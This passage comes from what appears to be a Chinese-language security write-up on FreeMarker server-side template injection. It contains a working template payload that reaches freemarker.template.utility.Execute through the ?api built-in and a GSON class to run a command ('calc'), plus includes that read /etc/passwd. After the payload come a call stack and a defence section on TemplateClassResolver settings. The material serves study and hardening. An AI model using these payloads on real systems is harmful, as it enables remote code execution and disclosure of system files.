```html
        <#break>
    </#if>
    ${byte}, </#list>]

    <#assign classLoader=object?api.class.protectionDomain.classLoader>
    <#assign clazz=classLoader.loadClass("ClassExposingGSON")>
    <#assign field=clazz?api.getField("GSON")>
    <#assign gson=field?api.get(null)>
    <#assign ex=gson?api.fromJson("{}", classLoader.loadClass("freemarker.template.utility.Execute"))>
    ${ex("calc")}

    <#assign optTemp = .get_optional_template('/etc/passwd')>
    <#if optTemp.exists>
        Template was found:
        <@optTemp.include />
    <#else>
        Template was missing.
    </#if>

    <#include "/etc/passwd" parse=false>
```

将上面的payload写入到模版文件保存，然后让freemarker加载即可。

调用栈

```
exec:84, Execute (freemarker.template.utility)
_eval:62, MethodCall (freemarker.core)
eval:101, Expression (freemarker.core)
calculateInterpolatedStringOrMarkup:100, DollarVariable (freemarker.core)
accept:63, DollarVariable (freemarker.core)
visit:347, Environment (freemarker.core)
visit:353, Environment (freemarker.core)
process:326, Environment (freemarker.core)
process:383, Template (freemarker.template)
main:44, TestFreeMarker (com.firebasky.freemarker)
```



### 防御

![image-20211125205404061](img/image-20211125205404061.png)



```java
//不允许解析任何类。
configuration.setNewBuiltinClassResolver(TemplateClassResolver.ALLOWS_NOTHING_RESOLVER);

//相同UNRESTRICTED_RESOLVER，不同是它不允许解析ObjectConstructor和Execute和freemarker.template.utility.JythonRuntime。
configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);

//只需调用ClassUtil.forName(String).
configuration.setNewBuiltinClassResolver(TemplateClassResolver.UNRESTRICTED_RESOLVER);
```
